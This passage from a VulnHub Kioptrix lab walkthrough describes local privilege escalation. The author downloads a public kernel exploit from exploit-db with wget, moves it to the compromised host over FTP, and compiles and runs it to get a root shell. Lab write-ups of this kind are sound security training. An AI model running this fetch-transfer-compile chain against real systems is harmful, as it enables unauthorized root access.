 ```bash
which gcc
/bin/gcc
```


....hmmmm...Let's [google](https://www.exploit-db.com/exploits/9542).

And there looks to be a suitable kernel exploit. Okay, let's try it out.

I'll first download the exploit and rename it to a gcc-friendly `.c` file name:

```bash
ein@~/VulnHub/Kioptrix1.1:$ wget https://www.exploit-db.com/download/9542
mv 9542 exploit.c
```

Now let's migrate it to the compromised host using FTP again:

```bash
get exploit.c
local: exploit.c remote: exploit.c
227 Entering Passive Mode (10,0,0,168,165,104)
150 Accepted data connection
226-File successfully transferred
226 0.000 seconds (measured here), 29.97 Mbytes per second
2645 bytes received in 0.000125 secs (2.1e+04 Kbytes/sec)
ftp> exit
exit
221-Goodbye. You uploaded 32 and downloaded 3 kbytes.
221 Logout.
bash-3.00$ ls
ls
exploit.c  LinEnum.sh  lol.txt
```

Sweet, now let's simply compile and run the exploit using `gcc`.

![Root!](/assets/images/VulnHub/Kioptrix1.1_8.PNG)

And we successfully privilege escalated and spawned a root shell. Rooted!
